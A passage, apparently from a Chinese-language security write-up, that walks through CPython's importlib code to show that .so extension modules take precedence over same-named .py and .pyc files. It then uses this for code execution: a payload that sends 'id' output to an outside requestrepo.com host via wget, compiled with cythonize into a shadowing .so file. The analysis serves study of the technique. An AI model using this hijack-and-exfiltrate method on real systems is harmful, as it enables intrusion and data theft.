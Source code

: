 在我的例子中，上述扩展名可以被Python导入。  
  
现在，问题是：如果<模块>.py已经存在，并且我们将<模块>.so文件写入同一目录，Python是否会优先选择<模块>.so而不是<模块>.py或__pycache__/<模块>.  
<magic>  
.pyc文件？  
  
如果我们查看lib/importlib/_bootstrap_external.py第604-608行，我们可以在函数spec_from_file_location中看到以下代码：  
```
def spec_from_file_location(name, location=None, *, loader=None, submodule_search_locations=None):
    [...]
    # 如果没有提供加载器，则选择一个
    if loader is None:
        for loader_class, suffixes in _get_supported_file_loaders():
            if location.endswith(tuple(suffixes)):
                loader = loader_class(name, location)
                spec.loader = loader
                break
        else:
            [...]
```  
  
在这里，它将循环遍历并从函数_get_supported_file_loaders中获取所有支持的文件加载器，该函数位于Lib/importlib/_bootstrap_external.py第1531-1546行：  
```
def _get_supported_file_loaders():
    [...]
    extension_loaders = []
    if hasattr(_imp, 'create_dynamic'):
        [...]
        extension_loaders.append((ExtensionFileLoader, _imp.extension_suffixes()))
    source = (SourceFileLoader, SOURCE_SUFFIXES)
    bytecode = (SourcelessFileLoader, BYTECODE_SUFFIXES)
    return extension_loaders + [source, bytecode]
```  
  
如你所见，SOURCE_SUFFIXES (.py)和BYTECODE_SUFFIXES (.pyc)文件扩展名实际上在最后一项：  
```
>>> importlib._bootstrap_external._get_supported_file_loaders()
[
    (<class '_frozen_importlib_external.ExtensionFileLoader'>, ['.cpython-311-x86_64-linux-gnu.so', '.abi3.so', '.so']),
    (<class '_frozen_importlib_external.SourceFileLoader'>, ['.py']),
    (<class '_frozen_importlib_external.SourcelessFileLoader'>, ['.pyc'])
]
```  
  
因此，.so文件将优先于扩展名.py和.pyc，并且将使用ExtensionFileLoader。这是因为.so是extension_loaders列表中的第一项。  
  
因此，我们可以将.so文件写入模块的目录，并等待第二次导入在不同的进程中发生，我们应该能够通过以下步骤获得RCE：  
  
telemetry.py  
```
__import__('os').system('wget --post-data "$(id)" -O- 48jcuj6n.requestrepo.com')
```  
  
将<模块>.py编译为.so，使用cythonize并将编译后的共享对象重命名为<模块>.so：  
```
> cythonize -i telemetry.py [...]
x86_64-linux-gnu-gcc -shared -Wl,-O1 -Wl,-Bsymbolic-functions -g -fwrapv -O2 -g -fwrapv -O2 -g -fstack-protector-strong -Wformat -Werror=format-security -Wdate-time -D_FORTIFY_SOURCE=2 -o telemetry.cpython-311-x86_64-linux-gnu.so telemetry.so
```  
  